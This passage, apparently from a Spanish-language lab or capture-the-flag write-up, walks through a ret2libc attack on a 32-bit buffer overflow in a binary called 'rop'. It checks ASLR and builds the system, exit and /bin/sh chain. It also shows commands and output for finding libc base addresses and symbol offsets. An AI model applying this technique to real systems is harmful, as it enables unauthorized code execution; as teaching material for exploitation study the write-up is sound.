     ```bash
    uname -a
    ```

    vemos que estamos en una maquina con architectura 32 bits

1. miramos si el ASLR esta habilitado

    ```bash
    cat /proc/sys/kernel/randomize_va_space

    #Output
    2
    ```

    Esta habilitado y lo podemos comprobar dandole multiples vecez al comando `ldd rop` y vemos que la libreria libc.so.6 cambia
    de direccion cada vez.

Ahora que tenemos esto en cuenta miramos como atacamos el BOF con un `Ret2Libc`. La tecnica aqui seria que una vez tomado el control del $eip
redirigir el programa a la direccion del 

1. system_addr
1. exit_addr
1. bin_sh_addr

ret2libc -> system_addr + exit_addr + bin_sh_addr.

Solo falta conocer las direcciones de estas funcciones. Como la maquina es de architectura 32 bits, podemos intentar colision con las direcciones.
De que se trata exactamente; En condiciones normales (donde el ASLR no esta activado), sumariamos los diferentes ofsets de las funcciones `system`, 
`exit` y `/bin/sh` a la direccion de la libreria `libc`. Estas direcciones se encuentran de la manera siguiente.

1. la direccion de libreria libc

    ```bash
    ldd rop
    ldd rop | grep libc
    ldd rop | grep libc | awk 'NF{print $NF}'
    ldd rop | grep libc | awk 'NF{print $NF}' | tr -d '()'

    #Output
    0xb771f000
    ```

1. los offsets del system_addr y del exit

    ```bash
    readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E " system@@ | exit@@"
    
    #Output
     141: 0002e9d0 31 FUNC GLOBAL DEFAULT 13 exit@@GLIBC_2.0
    1457: 0003ada0 31 FUNC WEAK   DEFAULT 13 system@@GLIBC_2.0
    ```
